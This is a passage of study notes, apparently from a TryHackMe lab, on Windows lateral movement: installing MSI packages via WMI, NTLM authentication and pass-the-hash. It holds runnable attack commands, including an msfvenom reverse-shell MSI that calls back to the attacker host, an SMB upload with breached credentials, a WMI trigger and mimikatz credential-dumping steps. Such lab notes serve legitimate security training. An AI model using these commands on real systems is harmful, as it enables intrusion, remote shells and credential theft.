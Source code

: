 		- Delete the scheduled task after it has been used with `Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"`
	- #### *Installing MSI packages through WMI*
		- Uses ports
			- `135/TCP, 49152-65535/TCP (DCERPC)`
			- `5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)`
		- Requires membership of the `Administrators` group.
		- MSI is a file format used for installers, if we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us.
		- Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI `Invoke-CimMethod -CimSession $Session -ClassNAme Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`
		- We can achieve the same for legacy system by using `wmic.exe /node:TARGET /user:DOMAIN\USER product call install PackageLocation=C:\Windows\myinstaller.msi`
		- **Steps**
			- Create a reverse shell using `msfvenom -p windows/x64/shell_reverse_tcp lhost=lateralmovement lport=4445 -f msi > myinstaller.msi`.
			- Copy the payload using SMB or any other method, `smbclient -c 'put myinstaller.msi' -U <breached-user> -W ZA '//thmiis.za.tryhackme.com/admin$/' <breached-pass>`.
			- Since its uploaded to admin$ share, it will be available at `C:\Windows\`.
			- Receive the reverse shell using `msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/shell_reverse_tcp; set lhost lateralmovement; set lport 4445;exploit"`.
			- Start a WMI session against THMIIS from PowerShell console
				- `$username = <breached-user>;`
				- `$password = <breached-pass>;`
				- `$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`
				- `$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`
				- `$Opt = New-CimSessionOption -Protocol DCOM`
				- `$Session = New-CimSession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop`
			- We then invoke the install method from the Win32_Product class to trigger the payload `Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`.
- ## *Use of Alternate Authentication Material*
	- Any piece of data that can be used to access a Windows account without actually knowing the user's password.
	- Possible because of how some authentication protocols work.
	- #### *NTLM Authentication*
		- **Process**
			- The client sends an authentication request to the server they want to access.
			- The server generates a random number and sends it as a challenge to the client.
			- The client combines his NTLM password hash with the challenge (and other known data) to generate a response to the challenge and sends it back to the server for verification.
			- The server forwards both the challenge and the response to the Domain Controller for verification.
			- The DC uses the challenge to recalculate the response and compares it to the received one, if they both match, the client is authenticated; otherwise, access is denied. The authentication result is sent to the server.
			- The server forwards the authentication result to the client.
		- The above process is for domain accounts, for local account, the server does the verification itself since the password hash is stored locally on its SAM.
		- **Pass-the-Hash**
			- As a result of extracting credentials from a host where we have attained administrative privileges (using mimikatz or similar tools), we might get cleartext passwords or hashes that can be easily cracked.
			- However, if we aren't lucky, we will end up with NTLM hashes.
			- If the Windows domain is configured to use NTLM authentication, we can pass the hash and authenticate without needing the password.
			- To extract NTLM hashes from local SAM
				- This method will only get local users on the machine, not domain users.
				- Transfer mimikatz to the target and run it using `.\mimikatz.exe`.
				- `privilege::debug`
				- `token::elevate`